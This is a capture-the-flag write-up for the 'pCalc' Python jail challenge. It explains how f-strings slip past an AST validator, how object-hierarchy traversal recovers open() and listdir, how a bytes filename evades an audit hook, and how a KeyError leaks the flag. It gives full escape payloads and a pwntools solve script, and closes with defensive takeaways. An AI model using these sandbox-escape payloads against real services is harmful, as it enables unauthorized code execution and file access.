






# pCalc - Pragyan CTF Misc Writeup

**Category:** Misc (Python Jail)
**Difficulty:** Hard
**Points:** 200
**Flag:** `p_ctf{CHA7C4LCisJUst$HorTf0rcaLCUla70r}`
**Solved by:** Smothy @ **0xN1umb** | **2nd Blood**

---

> *"They gave us a calculator. We gave them shell-lite."*
---




**Second blood baby!** 64 seconds behind first solve. 0xN1umb came through at 7:08:09 AM, just one minute after Good_challs? popped it at 7:07:05. Speed kills.

## Challenge Description
> Just a super secure calculator, making sure no funny business goes on except math homework...

We get a Python source file (`chal.py`) and an SSL connection. The challenge implements a "secure calculator" that only lets you evaluate math expressions. Spoiler: it's not that secure.

## TL;DR
Python jail with AST validation, audit hooks, and empty builtins. The AST validator allows `JoinedStr` (f-strings) but forgets to validate their children. We use f-strings to inject arbitrary code, bootstrap `open()` from the object hierarchy, pass the filename as `bytes` to dodge the audit hook, and exfiltrate via `KeyError`. Calculator go brrr.

## Initial Recon
We get a single Python file. Let's see what we're dealing with.



Reading the source, the jail has **5 layers of defense**:


1. **Keyword filter** - blocks `"import"` in source code
2. **AST validator** - whitelist of allowed node types
3. **Audit hook** - blocks `os.system`, `os.popen`, `subprocess`, and `open()` with "flag" in filename
4. **Empty builtins** - `{"__builtins__": {}}` means no `print`, `open`, `exec`, nothing
5. **Type filter** - only prints `int`/`float`/`complex` results

Five whole layers. Surely unbreakable. Right?

## Step 1: Finding the Crack - The f-string Loophole

Looking at the AST validator more carefully:

```python
def visit(self, node):
    if isinstance(node, (ast.Module, ast.Expr, ast.BinOp, ast.UnaryOp,
                         ast.Constant, ast.Name, ast.Load,
                         ast.operator, ast.unaryop)):
        super().visit(node)      # <-- visits children
    elif isinstance(node, ast.JoinedStr):
        pass                     # <-- DOES NOT visit children!!!
    else:
        self.is_valid = False
```

`JoinedStr` is the AST node for **f-strings**. The validator allows it but does `pass` instead of calling `super().visit(node)`. This means **everything inside f-string braces is completely unchecked**.




For the homies who haven't touched Python AST: when the validator sees `f"{some_code}"`, it visits the `JoinedStr` node and just... moves on. The `FormattedValue` child containing `some_code` is never visited. We can put **any Python expression** inside those braces.

## Step 2: Bootstrapping from Nothing

Cool, we can write arbitrary expressions in f-strings. But `__builtins__` is empty - no `open`, `print`, `exec`, nothing. How do we get functions back?

The classic Python jail escape: **object hierarchy traversal**.

```python
().__class__.__mro__[-1].__subclasses__()
```

This gives us:
1. `()` → a tuple
2. `.__class__` → `<class 'tuple'>`
3. `.__mro__[-1]` → `<class 'object'>` (the root of everything)
4. `.__subclasses__()` → ALL classes in the Python process

Since the challenge imports `os`, `os._wrap_close` is among the subclasses. Its `__init__.__globals__` gives us the `os` module's globals, including `__builtins__` with a working `open()`.

## Step 3: Dodging the Audit Hook



The audit hook checks:
```python
if event == 'open' and isinstance(args[0], str) and 'flag' in args[0]:
    raise RuntimeError("Forbidden File Access")
```

The trick? **Pass the filename as bytes instead of string!**

```python
open(b'flag.txt')  # isinstance(b'flag.txt', str) == False → check skipped!
```

Python's `and` operator short-circuits. `isinstance(bytes, str)` returns `False`, so `'flag' in args[0]` is never evaluated.


## Step 4: Exfiltrating the Data

One problem left: f-strings return strings, and the jail only prints numbers. But exceptions get printed:

```python
except Exception as e:
    print(f"Runtime Error: {e}")
```

So we use a **KeyError** as our data channel:

```python
{}[flag_data]  # → KeyError: 'p_ctf{...}'
```

Empty dict, use the flag content as a key, get a `KeyError` with the flag in the error message. Beautiful.

## Step 5: Putting It All Together



**First, list the directory to find the flag filename:**

```python
f"{ {}[' '.join([c for c in ().__class__.__mro__[-1].__subclasses__() if c.__name__=='_wrap_close'][0].__init__.__globals__['listdir']('.'))] }"
```

Result: `Runtime Error: 'run flag.txt'`

**Then, read the flag:**


```python
f"{ {}[[c for c in ().__class__.__mro__[-1].__subclasses__() if c.__name__=='_wrap_close'][0].__init__.__globals__['__builtins__']['open'](b'flag.txt').read()] }"
```

Result: `Runtime Error: 'p_ctf{CHA7C4LCisJUst$HorTf0rcaLCUla70r}\n'`

## The Flag



```
p_ctf{CHA7C4LCisJUst$HorTf0rcaLCUla70r}
```

Decoded l33tspeak: **"Chat calc is just short for calculator"**


## The Solve Script

```python
"""
pCalc - Pragyan CTF 2025
Python jail escape via f-string AST bypass + bytes audit evasion
Smothy @ 0xN1umb
"""
from pwn import *

context.log_level = 'info'

def connect():
    return remote('pcalc.ctf.prgy.in', 1337, ssl=True)

# Step 1: List directory
p = connect()
p.recvuntil(b'>>> ')
payload_ls = 'f"{ {}[\' \'.join([c for c in ().__class__.__mro__[-1].__subclasses__() if c.__name__==\'_wrap_close\'][0].__init__.__globals__[\'listdir\'](\'.\'))] }"'
p.sendline(payload_ls.encode())
log.info(f"Dir listing: {p.recvall(timeout=10).decode()}")
p.close()

# Step 2: Read flag using bytes path to bypass audit hook
p = connect()
p.recvuntil(b'>>> ')
payload_flag = 'f"{ {}[[c for c in ().__class__.__mro__[-1].__subclasses__() if c.__name__==\'_wrap_close\'][0].__init__.__globals__[\'__builtins__\'][\'open\'](b\'flag.txt\').read()] }"'
p.sendline(payload_flag.encode())
log.info(f"Flag: {p.recvall(timeout=10).decode()}")
p.close()
```

## The Graveyard of Failed Attempts

None, honestly. Once you see the f-string `pass` in the validator, the path is clear. The real challenge was figuring out the exfiltration method since f-strings return strings, not numbers. KeyError as a data channel was the move.


*The only pain was briefly forgetting that `os` module doesn't have `'os'` in its own globals. We went to access `_wrap_close.__init__.__globals__['os'].listdir` and got `KeyError: 'os'`. The fix: access `listdir` directly since it's a top-level function in `os.py`.*

## Key Takeaways

1. **AST validation must be recursive** - If you allow a node type, you MUST validate its children. The `pass` on `JoinedStr` was the entire vulnerability.
2. **Type checks in security hooks are fragile** - `isinstance(args[0], str)` is trivially bypassed by passing `bytes`. Always check for both types, or use `os.fspath()`.
3. **Empty `__builtins__` is never enough** - As long as you have ANY object in scope (even an empty tuple `()`), you can traverse the class hierarchy back to everything.
4. **Error messages are data channels** - `KeyError` exceptions helpfully include the key in the message. If you catch and print exceptions, you're giving attackers an exfiltration path.
5. **F-strings are Turing-complete** - They can contain arbitrary Python expressions, making them a dangerous node type to allow in any validator.

## Tools Used

- pwntools (connection + SSL)
- Python AST module knowledge
- Understanding of CPython object model
- Way too much caffeine

---
*Writeup by **Smothy** from **0xN1umb** team.*
*Five layers of security defeated by two curly braces and the letter 'b'. GG.*

